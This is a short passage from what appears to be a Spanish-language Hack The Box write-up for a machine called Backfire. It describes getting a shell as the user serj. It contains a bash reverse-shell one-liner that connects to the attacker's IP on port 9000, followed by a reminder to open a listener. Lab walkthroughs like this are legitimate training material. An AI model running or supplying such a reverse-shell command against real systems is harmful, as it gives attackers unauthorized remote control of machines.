 Aquí vamos a crear una shell reversa a nuestra maquina para poder trabajar con el usuario serj.

```bash
nohup /bin/bash -i >& /dev/tcp/10.10.16.71/9000 0>&1 &
```

> **Nota**: Recuerda habilitar el puerto de escucha en tu máquina linux.
{: .prompt-info }

[![SHELL](/assets/img/posts/backfire-hackthebox/revshell_serj.png)](/assets/img/posts/backfire-hackthebox/revshell_serj.png)

Ahora seguimos el mismo proceso que para crear la clave ssh de ilya pero para serj.
